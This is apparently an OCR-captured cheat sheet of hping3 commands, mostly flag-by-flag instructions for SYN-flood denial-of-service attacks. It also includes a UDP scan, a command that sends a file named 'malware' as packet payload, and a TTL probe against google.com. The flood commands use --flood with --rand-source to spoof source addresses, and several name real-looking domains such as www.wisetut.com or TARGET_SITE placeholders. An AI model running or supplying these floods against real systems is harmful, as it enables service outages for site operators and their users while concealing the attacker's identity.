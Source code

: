 hping3 -2 [Target IP Address] -p 80 -c 5 #UDP scan
   
# -d is the data payload size (here, we've designated it as 10 bytes)
# -E tells hping3 to grab data from the following file
hping3 -f 192.168.1.105 -p 80 -d 10 -E malware

# -z connects the command to the ctrl z on the keyboard so that every time we press it, the TTL is incremented by 1
# -t sets the initial TTL (in this case, we're using 1)
# -S sets the flag to SYN
# -p 80 sets the destination port to 80
hping3 -z -t 1 -S google.com -p 80
    


DoS using hping3 with random source IP
-c 100000 = Number of packets to send.
-d 120 = Size of each packet that was sent to target machine.
-S = I am sending SYN packets only.
-w 64 = TCP window size.
-p 21 = Destination port (21 being FTP port). You can use any port here.
--flood = Sending packets as fast as possible, without taking care to show incoming replies. Flood mode.
--rand-source = Using Random Source IP Addresses. You can also use -a or –spoof to hide hostnames. See MAN page below.
www.hping3testsite.com = Destination IP address/website name 
$hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com

#SYN flood – DoS using HPING3
hping3 -S --flood -V www.hping3testsite.com
#-p option is used to set the remote port number for the flood
#-S option is used to set the flood type for the TCP protocol which is the sync flood
hping3 -S --flood -p 80 www.wisetut.com

hping3 --traceroute -v -1 www.wisetut.com #the traceroute feature which is used to identify the intermediate hosts between source and destination

Advanced SYN flood with random source IP, different data size, and window size
hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE
–flood: sent packets as fast as possible
–rand-source: random source address
-c –count: packet count
-d –data: data size
-S –syn: set SYN flag
-w –win: winsize (default 64)
-p –destport: destination port (default 0)
$hping3 -S --flood -V -p TARGET_PORT TARGET_SITE
